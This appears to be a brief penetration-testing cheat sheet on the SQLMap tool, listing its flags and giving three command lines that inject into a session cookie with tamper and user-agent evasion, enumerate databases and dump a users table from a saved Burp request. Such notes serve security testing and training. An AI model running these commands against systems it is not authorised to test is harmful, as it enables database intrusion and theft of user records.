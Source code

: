 # SQLMap

## SQLmap

SQLMap example using :

* -r file &gt; \(burp request \)
* --data &gt; injection field
* -p &gt; parameter to inject
* --user-agent &gt; user-agent obfuscation
* --tamper script
* --dbs enumerate DBs
* --dbms &gt; db type
* --level 5  --risk 1
* --flush-session -&gt; clean up
* -v -&gt; verbose mode
* --threads -&gt; threads to run

```text
sqlmap -r login.req --data "PHPSESSID=78b00a1ac6a210982bc81f49f799e352"  -p PHPSESSID  --user-agent=mozilla --tamper htmlencode --dbs --dbms=Mysql --batch --level 5 --risk 1 --proxy http://localhost:8080 -v 6
```

### Using burp request

```text
sqlmap -r `pwd`/login.req  --dbs --batch --threads=10 -v4
```

### Retrieve tables from specific DB

```csharp
sqlmap -r `pwd`/login.req  --dbs --batch --threads=10 -v4 --dbms mssql -dbs --current-db shop --tables users --dump
```




